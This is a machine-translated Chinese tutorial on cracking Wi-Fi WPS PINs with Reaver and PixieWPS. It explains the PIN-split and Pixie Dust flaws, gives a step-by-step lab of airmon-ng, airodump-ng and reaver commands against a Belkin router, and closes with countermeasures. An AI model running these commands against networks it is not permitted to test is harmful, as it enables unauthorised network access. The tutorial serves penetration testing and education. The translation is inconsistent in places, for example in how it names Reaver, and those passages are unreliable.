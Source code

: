 # 掠夺者+pixeiwps——暴力破解 WiFi 路由器 WPS 的工具

> 原文：<https://kalilinuxtutorials.com/reaver-pixewps/>

金甲虫是一个暴力破解 WIFi 路由器 WPS 的工具。PixeWPS 是一个新的工具，可以在 WPS 事务中强行交换密钥。首先，我们来了解一下什么是 WPS

WPS 是受 Wifi 保护的设置，旨在快速轻松地向 AP 认证客户端，主要针对家庭用户。基本上在 WPS 中，接入点和客户端交换一系列 EAP 消息。在这个事务结束时，客户机将获得加密密钥 AP 的签名，这样它就可以连接到加密的网络了。完成后，AP 将与客户端解除关联。然后，客户端重新关联新的凭证和签名。这里需要注意的一件重要事情是，在 WPS 启动期间，实际的密码短语并没有被交换。取而代之的是，使用一个八位数的 pin 进行身份验证。使用这样的 pin，首先对客户端进行身份验证，然后交换实际的密码短语。

2011 年，一位名叫 Stefan vieh bck 的安全研究人员发现了这种实现中的一个缺陷。他提出的概念基于以下事实:

*   在 PIN 的 8 个数字中，最后一个数字是校验和，剩下 7 个数字需要猜测。
*   通过将 PIN 分成两半来验证它。所以前半部分留给 10^4 = 10，000 次猜测，后半部分留给 10^3 = 1000 次猜测。所以总共只有 11000 次猜测，这里应该是 10^8 = 100000000 次猜测。

因此，猜测的次数急剧减少，最终，它可以在更短的时间内被强行破解。掠夺者是一种工具，做的完全一样。它对启用 WPS 的 AP 进行在线攻击，尝试了大约 11000 个 pin。

最近，一位名叫 Dominique Bongard 的安全研究人员发现了一个更新的漏洞。他发现，在两个半针的组成部分缺乏随机性将使离线暴力成为可能。当 PIN 的 2 个一半被交换时，如果这些数据包的组成部分没有被适当地随机化，由 Reaver 生成的真实 PIN 可能被用来执行离线攻击。将来自掠夺者的 PIN 与接收到的哈希进行比对，以确认真实的 PIN。然后，这个 PIN 可以被掠夺者用来对路由器进行在线攻击，以获取真正的密码。

[![reaver](img//38d8679d521b2d643927b502d7bdb18d.png)](http://kalilinuxtutorials.com/wl/reaver-pixewps/attachment/reaver-wpsattack/#main)

Pixie Dust Attack

这种攻击只适用于易受攻击的设备。这种攻击被称为 PixieDust。PixieWPS 是一个工具，它从捕获的散列值中找到 WPS PIN。Pixie WPS 可以单独执行，也可以和更新的金甲虫包一起执行。

[金甲虫主页](http://code.google.com/p/reaver-wps/)

[PixieWPS 主页](https://github.com/wiire/pixiewps/)

参考资料: [维基](https://en.wikipedia.org/wiki/Wi-Fi_Protected_Setup)， [HTG](http://www.howtogeek.com/176124/wi-fi-protected-setup-wps-is-insecure-heres-why-you-should-disable-it/) ，[信息安全学院](http://resources.infosecinstitute.com/wi-fi-security-wps/)

## 选择

因为本教程关注的是金甲虫，所以只显示了金甲虫选项。期权贬值。

```
Required Arguments:
 -i, --interface=<wlan> Name of the monitor-mode interface to use
 -b, --bssid=<mac> BSSID of the target AP

Optional Arguments:
 -m, --mac=<mac> MAC of the host system
 -c, --channel=<channel> Set the 802.11 channel for the interface (implies -f)
 -o, --out-file=<file> Send output to a log file [stdout]
 -a, --auto Auto detect the best advanced options for the target AP
 -v, --verbose Display non-critical warnings (-vv for more)
 -q, --quiet Only display critical messages
 -K --pixie-dust=<number> [1] Run pixiewps with PKE, PKR, E-Hash1, E-Hash2 and E-Nonce (Ralink, Broadcom, Realtek)
 -Z, --no-auto-pass Do NOT run reaver to auto retrieve WPA password if Pixiewps attack is successful
 -h, --help Show help

Advanced Options:
 -p, --pin=<wps pin> Use the specified 4 or 8 digit WPS pin
 -d, --delay=<seconds> Set the delay between pin attempts [1]
 -l, --lock-delay=<seconds> Set the time to wait if the AP locks WPS pin attempts [60]
 -1, --p1-index Set initial array index for the first half of the pin [False]
 -2, --p2-index Set initial array index for the second half of the pin [False]
 -P, --pixiedust-loop Set into PixieLoop mode (doesn't send M4, and loops through to M3) [False]
 -W, --generate-pin Default Pin Generator by devttys0 team [1] Belkin [2] D-Link
```

## 实验室:用掠夺者和皮克斯威普斯破解 WPA2 PSK 网络

#### 方案

攻击者–Kali Linux(Sana)机器(非虚拟机)

目标–Belkin AP

**步骤 1:初始设置**

启动监视器接口，以便开始从空中捕获数据包。

```
Command: service network-manager stop
Command: airmon-ng check
```

杀死干扰进程。对所有过程重复这样做，直到 airmon-ng 检查给出“无干扰”输出。

```
Command:  kill -9  <pid>
```

启动监视器界面。

```
Command: airmon-ng check
Command: iwconfig
command: airmon-ng start wlan0 <replace with yours>
```

[![reaver](img//dc7e4b598d51c595eb47ad354e33a2e0.png)](http://kalilinuxtutorials.com/wl/reaver-pixewps/attachment/reaver1/#main)

Reaver Initial Setup

[![reaver](img//66e308d400ffd9dba79b5f098a85d085.png)](http://kalilinuxtutorials.com/wl/reaver-pixewps/attachment/reaver2/#main)

Reaver Initial Setup

**第二步:开始捕捉&选择目标。**

Airodump 转储监视器接口上收到的数据包。我们可以选择是否将数据包写入文件。在不久的将来会有一个完整的教程。

```
command: airodump-ng wlan0mon <replace with yours>
```

[![reaver](img//d5429ac455e47f433f88a312c52d0fba.png)](http://kalilinuxtutorials.com/wl/reaver-pixewps/attachment/reaver3/#main)

Starting Capture

执行 Airodump 实际上将终端变成显示所有信息的更新终端。记下目标 BSSID、通道和 ESSID。按 control+c 停止 airodump。

用相关信息运行掠夺者。

```
command: reaver -i wlan0mon <replace with yours> -b <bssid> -c <channel no> -K 1 -vv
```

[![reaver](img//0f98c08c21e4a3b76ba2baea44debc37.png)](http://kalilinuxtutorials.com/wl/reaver-pixewps/attachment/reaver4/#main)

Capture & Reaver Output

从上图我们可以得到我们目标的 MAC。记下这一点，然后运行金甲虫。

[![reaver](img//7cf9cac79f276fbfd14f19f0687ad5e5.png)](http://kalilinuxtutorials.com/wl/reaver-pixewps/attachment/reaver5/#main)

Pixie Output

这就是密码和个人识别码。因此，这是一种离线和在线相结合的攻击，可以在无线渗透测试期间针对无线接入点运行。有趣的是，PixieWPS 发现了许多其他信息，如 AP 的型号、制造商等。因此，在测试期间，可以使用它来搜索特定 AP 的已知漏洞。

为获得最佳攻击性能，请使用 Alfa Network AWUS036NH 或类似型号。

相关视频:[https://vimeo.com/126489367](https://vimeo.com/126489367)

## 对策

先想想为什么会有这样针对我们的攻击，再想想是不是真的有必要用 RPG 来杀老鼠。以下是一些对策:

1.  禁用 WPS:分析你的无线接入点是否需要使用 WPS。
2.  增加超时时间:对于高级路由器，我们可以增加接收超时时间来减缓攻击
3.  WPS 锁:将 WPS 锁时间设置为一个较大的值
4.  MAC 过滤:当然是老狗，但有时可以防止脚本小子。
5.  从物理上保护路由器